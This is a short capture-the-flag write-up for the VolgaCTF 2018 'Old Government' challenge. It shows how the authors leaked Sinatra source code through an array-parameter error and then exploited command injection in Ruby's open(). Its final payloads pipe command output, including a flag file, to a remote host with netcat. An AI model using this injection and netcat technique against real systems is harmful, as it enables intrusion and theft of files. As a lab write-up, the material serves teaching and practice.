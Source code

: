 ```yaml
---
layout: post
title: volgactf 2018 - Old Government
author:
  name: onionpsy
  github: onionpsy
---
```


We started by checking the link on the header and we saw that an `id` is passed in the url with the id of the page: `page?id=36`. After some tries we found that we could crash the application by passing id as an array, like that `page?id[]=36`.

```
NoMethodError at /page
undefined method `to_i' for ["36"]:Array Did you mean? to_s to_a to_h
```

It gaves us info that the website is powered by Sinatra, a ruby web framework.

On the backtrace, we could see part of the code.

### articles.erb
```
            case @id.to_i

    when 2
      erb :page2
    when 5
      erb :page5
    when 18
      erb :page18
    when 23
```

### app.rb
```

        headers "Server" => ""
      	erb :index
      end

      get '/page' do
      	@id = params[:id]
        headers "Server" => ""

      	erb :articles

      end

      post '/page' do
      	@id = params[:id]
        headers "Server" => ""
      	erb :articles
      end
```

After a few tries on the pages, we found that the page with the id 18 has a form with 2 fields. One is waiting a valid url and the other is optional. We used once again the `page?id[]=36` trick but thourgh a POST this time. This gave us more information about the code. The most interesting one is this function:

```
  def siteValidator(site)
    begin
  	  r = open(site, :allow_redirections => :all)
	(...)
```

Judging by the name it seems that this one is ran on the site field of the post query. Judging by https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet, `open` can be actually used to inject command.
After some tries we can see that it works:
 * `?id=| ls` show validated
 * s`?id=| aaaa` show error

But because we don't have any sort of output, we decided to create a reverse shell using netcat (present on the server) using this syntax: `| <command> | netcat <ip> <port>`

After some directory listening, we saw the flag file:
`| cat ../../flag | netcat <ip> <port>`

Done!
